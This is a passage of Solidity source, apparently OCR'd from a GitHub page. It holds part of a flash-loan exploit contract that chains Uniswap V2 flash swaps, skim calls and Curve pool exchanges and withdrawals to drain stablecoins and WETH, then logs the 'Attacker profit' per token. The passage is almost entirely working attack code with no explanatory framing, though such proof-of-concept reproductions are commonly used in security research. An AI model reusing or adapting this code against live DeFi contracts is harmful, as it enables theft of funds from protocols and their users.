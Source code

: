 ```solidity
        uint usdtProfit = (IERC20(usdtAddress).balanceOf(msg.sender) - usdtBefore)/(10**IERC20(usdtAddress).decimals());
        uint daiProfit  = (IERC20(daiAddress).balanceOf(msg.sender) - daiBefore)/(10**IERC20(daiAddress).decimals());
        uint usdcProfit = (IERC20(usdcAddress).balanceOf(msg.sender) - usdcBefore)/(10**IERC20(usdcAddress).decimals());
        uint beanProfit = (IERC20(beanTokenAddress).balanceOf(msg.sender) - beanBefore)/(10**IERC20(beanTokenAddress).decimals());
        uint wethProfit = (IERC20(weth).balanceOf(msg.sender) - wethBefore)/(10**IERC20(weth).decimals());
        console.log("Attacker profit:");
        console.log("usdt:  %s USD", usdtProfit);
        console.log("dai:   %s USD", daiProfit);
        console.log("usdc:  %s USD", usdcProfit);
        console.log("bean:  %s USD", beanProfit);
        console.log("weth:  %s", wethProfit);
        console.log("total: %s USD and %s ETH", 
            usdtProfit + usdcProfit + daiProfit + beanProfit,
            wethProfit
        );
    }
    function bytesToAddress(bytes memory bys) public pure returns (address addr) {
      assembly {
        addr := mload(add(bys,20))
      }
    }
    function executeOperation(address[] calldata ,uint256[] calldata ,uint256[] calldata ,address ,bytes calldata ) external returns (bool){
        uint112 loan;
        (,loan,)= IUniswapV2Pair(wethBeanUniPairAddress).getReserves();
        IUniswapV2Pair(wethBeanUniPairAddress).swap(0, loan - 1, address(this), abi.encodePacked(beanTokenAddress));
        IUniswapV2Pair(wethBeanUniPairAddress).skim(address(this));
        ICRV(lusdCrvAddress).exchange(int128(0), int128(1), IERC20(lusdAddress).balanceOf(address(this)) , uint256(0));
        uint LPremain = IERC20(crvDTC).balanceOf(address(this));
        ICRV(crvDTCPool).remove_liquidity_one_coin(LPremain/2, 1, 0);
        ICRV(crvDTCPool).remove_liquidity_one_coin(LPremain*35/100, 0, 0);
        ICRV(crvDTCPool).remove_liquidity_one_coin(IERC20(crvDTC).balanceOf(address(this)), 2, 0);
        return true;
  }
    function uniswapV2Call(address , uint amount0, uint amount1, bytes calldata data) external{
        address token   = bytesToAddress(data);
        if(token == beanTokenAddress){
            uint112 loan;
            (loan,,) = IUniswapV2Pair(lusdOhmUniPairAddress).getReserves();
            IUniswapV2Pair(lusdOhmUniPairAddress).swap(loan - 1, 0, address(this), abi.encodePacked(lusdAddress)); 
            IUniswapV2Pair(lusdOhmUniPairAddress).skim(address(this));
            IERC20(token).transfer(msg.sender, amount1*103/100);
        }
        else if(token == lusdAddress){
            {
            uint DAIbalance = IERC20(daiAddress).balanceOf(address(this));
            uint USDCbalance = IERC20(usdcAddress).balanceOf(address(this));
            uint USDTbalance = IERC20(usdtAddress).balanceOf(address(this));
            uint256[3] memory amounts1;
            amounts1[0] = DAIbalance;
            amounts1[1] = USDCbalance;
            amounts1[2] = USDTbalance;
            ICRV(crvDTCPool).add_liquidity(amounts1, 0);
            }
            ICRV(lusdCrvAddress).exchange(int128(1), int128(0), amount0 , uint256(0));
```